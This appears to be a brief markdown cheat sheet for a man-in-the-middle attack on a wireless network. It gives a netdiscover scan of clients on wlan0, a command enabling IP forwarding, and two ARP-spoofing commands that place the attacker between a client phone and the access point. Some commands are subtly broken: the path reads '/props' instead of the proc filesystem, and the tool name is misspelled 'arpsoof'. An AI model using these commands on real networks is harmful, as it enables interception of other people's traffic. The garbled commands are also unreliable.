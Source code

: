 get info about clients on network

```sh
netdiscover -i wlan0
```

# mitm

```sh
echo 1 > /props/sys/net/ipv4/ip_forward   # enable ip forwarding
arpsoof -i wlan0 <ip_of_client> <gateway> # tell the ap we are the iphone
arpsoof -i wlan0 <gateway> <ip_of_client> # tell the iphone we are the ap
```
